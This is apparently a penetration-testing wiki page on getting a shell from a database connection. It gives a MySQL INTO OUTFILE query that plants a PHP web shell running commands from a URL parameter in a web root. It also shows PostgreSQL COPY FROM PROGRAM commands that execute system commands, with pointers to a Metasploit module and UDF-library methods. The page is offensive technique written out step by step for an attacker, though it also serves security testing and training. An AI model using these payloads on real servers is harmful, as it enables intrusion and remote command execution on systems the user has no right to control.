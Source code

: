 ```yaml
---
description: You have a connection to a database. How can you get a shell from that?
---
```


# Get a Shell From DB Connection

## Write a Web Shell

Prerequisites:

* A web server that supports PHP or ASP is installed on the same server
* The database user has write permissions in a directory from where PHP or ASP can be executed through the web server

Many databases can write files to the local system. So if possible, write a web shell to the web server.

Mysql example:

```
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

## Databases Support Command Execution

Some databases support command execution, so you can just use that. Always check whether the database system supports running commands, or whether there are CVEs or methods for running shell commands for that specific DB.

Prerequisite:

* Connection to a database system that supports command execution
* May require certain privileges as the user you're connecting to

### PostgreSQL Intended Command Execution

Prerequisites:
* Heightened privileges:
  * Database superuser
  * Or any user in the `pg_execute_server_program` group

First, the attacker needs to create a table to hold the system command's output.

```
> CREATE TABLE cmd_exec(cmd_output text);
```

Then, they can run the system command via the COPY TO/FROM PROGRAM function.

```
> COPY cmd_exec FROM PROGRAM 'id';
```

Run longer commands like this:

```
> COPY cmd_exec FROM PROGRAM 'touch /tmp/test';
```

### PostgreSQL Command Execution Using Extensions

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions" %}

Prerequisites:
  * In **older** versions (9.x, 8.x), you must be able to **write to the `/tmp` directory**, and must be able to  **source UDF Shared Libraries** from there as well.
  * In **newer** versions (>=11, perhaps?), also requires **superadmin** privileges

Method:
* With postgres 8.x, use the [metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload/)
* With 9.x, you'll have to [compile the library](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#compile-the-library)


